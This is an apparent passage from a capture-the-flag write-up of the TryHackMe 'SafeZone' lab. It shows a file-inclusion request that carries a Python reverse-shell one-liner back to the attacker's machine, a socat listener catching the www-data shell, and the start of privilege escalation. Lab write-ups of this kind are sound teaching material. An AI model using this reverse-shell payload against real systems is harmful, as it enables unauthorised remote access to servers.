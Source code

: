 - Send the payload: (Generated from [revshells.com](https://www.revshells.com/))

```bash
/detail.php?page=/var/log/apache2/access.log&cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.0.253",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/SafeZone/images/Pasted%20image%2020221230023733.png)

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/SafeZone]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:443
2022/12/30 02:34:35 socat[107759] N opening character device "/dev/pts/1" for reading and writing
2022/12/30 02:34:35 socat[107759] N listening on AF=2 0.0.0.0:443
                                                                 2022/12/30 02:37:12 socat[107759] N accepting connection from AF=2 10.10.245.138:54914 on AF=2 10.9.0.253:443
                                                                  2022/12/30 02:37:12 socat[107759] N starting data transfer loop with FDs [5,5] and [7,7]
                                               www-data@safezone:/var/www/html$ 
www-data@safezone:/var/www/html$ whoami;hostname;id;ip a
www-data
safezone
uid=33(www-data) gid=33(www-data) groups=33(www-data)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:94:90:5e:ae:39 brd ff:ff:ff:ff:ff:ff
    inet 10.10.245.138/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2995sec preferred_lft 2995sec
    inet6 fe80::94:90ff:fe5e:ae39/64 scope link 
       valid_lft forever preferred_lft forever
www-data@safezone:/var/www/html$ ^C
www-data@safezone:/var/www/html$ 
```

I'm user `www-data`!

## Privilege Escalation

### www-data to files

**Let's view user `files` home directory!**
```
www-data@safezone:/var/www/html$ ls -lah /home/files
total 40K
drwxrwxrwx 5 files files 4.0K Mar 29  2021  .
drwxr-xr-x 4 root  root  4.0K Jan 29  2021  ..
-rw------- 1 files files    0 Mar 29  2021  .bash_history
-rw-r--r-- 1 files files  220 Jan 29  2021  .bash_logout
-rw-r--r-- 1 files files 3.7K Jan 29  2021  .bashrc
drwx------ 2 files files 4.0K Jan 29  2021  .cache
drwx------ 3 files files 4.0K Jan 29  2021  .gnupg
drwxrwxr-x 3 files files 4.0K Jan 30  2021  .local
-rw-r--r-- 1 files files  807 Jan 29  2021  .profile
-rw-r--r-- 1 root  root   105 Jan 29  2021 '.something#fake_can@be^here'
-rwxrwxrwx 1 root  root   112 Jan 29  2021  pass.txt
```
